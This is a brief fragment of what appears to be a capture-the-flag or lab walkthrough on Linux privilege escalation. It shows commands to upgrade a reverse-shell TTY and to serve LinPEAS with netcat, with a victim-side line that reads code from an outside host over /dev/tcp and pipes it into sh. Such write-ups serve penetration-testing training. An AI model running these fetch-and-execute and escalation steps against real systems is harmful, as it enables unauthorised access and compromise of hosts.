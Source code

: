 > Priv Esc

To Upgrade the tty&#x20;

```bash
python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;

```

<figure><img src="../../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

I will try Useing **Best tool to look for Linux local privilege escalation vectors:** [**LinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```bash
sudo nc  -lvnp 443 < linpeas.sh #Host
cat < /dev/tcp/10.21.32.157/443 | sh #Victim
```

<figure><img src="../../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

i found DB.php

